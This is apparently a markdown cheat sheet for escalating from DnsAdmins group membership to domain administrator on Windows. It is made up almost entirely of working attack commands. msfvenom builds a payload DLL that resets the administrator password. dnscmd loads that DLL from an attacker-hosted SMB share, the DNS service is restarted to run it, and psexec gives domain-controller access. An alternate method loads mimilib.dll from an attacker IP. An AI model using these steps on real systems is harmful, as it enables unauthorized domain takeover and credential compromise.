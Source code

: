 ### A user that is a member of the DnsAdmins group, has the ability to use dnscmd.exe to specify a plugin DLL that should be loaded by the DNS service.

### We can create our own malicious .dll payload with msfvenom to escalate privileges

### Steps:

## Enumeration

 - Get-NetGroupMember -GroupName "DNSAdmins"

 - Get-ADGroupMember -Identity DNSAdmins

## Exploitation

#### 1) msfvenom -p windows/x64/exec cmd='net user administrator P@55w0rd123! /domain' -f dll > pwn.dll

#### 2) sudo smbserver.py share ./ (Host the file remotely)

#### 3) cmd /c dnscmd localhost /config /serverlevelplugindll \\OUR_IP\share\pwn.dll (Set the remote DLL path into the windows registry)

#### 4) sc.exe stop dns

#### 5) sc.exe start dns (Restart the DNS service to execute our malicious dll)

#### 6) sudo psexec.py DOMAIN.LOCAL/administrator@DC_IP

#### 7) PWN3D!

## Alternate Method: DNSServer module

 - $dnsettings = Get-DnsServerSetting -ComputerName <servername> -Verbose -All

 - $dnsettings.ServerLevelPluginDll = "\attacker_IP\dll\mimilib.dll"

 - Set-DnsServerSetting -InputObject $dnsettings -ComputerName <servername> -Verbose

### Check for successful previous command

 - Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
